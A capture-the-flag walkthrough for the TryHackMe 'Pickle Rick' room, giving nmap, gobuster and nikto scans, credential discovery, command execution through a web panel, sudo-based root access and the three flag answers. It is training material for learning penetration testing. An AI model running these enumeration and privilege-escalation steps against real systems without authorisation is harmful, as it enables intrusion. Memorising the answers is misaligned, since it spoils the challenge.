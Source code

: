 # Pickle-Rick-CTF-
https://tryhackme.com/room/picklerick

###### Use Nmap to find out open ports : sudo nmap -sS -sV  10.10.181.209

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))


Found a username by inspecting the webpage :

Username: R1ckRul3s

###### use gobuster dir -u http: //10.10.181.209 -w /usr/share/wordlists/dirb/common.txt and found the following:

/assets               (Status: 301) [Size: 315] [--> http://10.10.181.209/assets/]

/index.html           (Status: 200) [Size: 1062]  
                                
/robots.txt           (Status: 200) [Size: 17] 
                                   
/server-status        (Status: 403) [Size: 301] 
 
Found this text "Wubbalubbadubdub" on the robots.txt file 

###### use nikto -h http: //10.10.181.209 to find more clues

enter the username and roboto.txt text to gain access : found a /login.php directory 

###### try the linx ls commands and the following were found

Sup3rS3cretPickl3Ingred.txt

assets

clue.txt

denied.php

index.html

login.php

portal.php

robots.txt

###### unable to use cat though , try using strings 

use strings Sup3rS3cretPickl3Ingred.txt to get the first flag

clue.txt gives us some info : Look around the file system for the other ingredient.

ls /home/ and rick user is found 

ls /home/rick to see another file vall second ingredients 

strings /home/rick/"second ingredients" to find the 2nd flag

try gaining root access , sudo -l : (ALL) NOPASSWD: ALL

use sudo ls /root/ to find the following files

3rd.txt 

snap 

sudo strings /root/3rd.txt to find the final flag 

## What is the first ingredient Rick needs?

🏴‍☠️mr. meeseek hair

## Whats the second ingredient Rick needs?

🏴‍☠️1 jerry tear

## Whats the final ingredient Rick needs?

🏴‍☠️fleeb juice

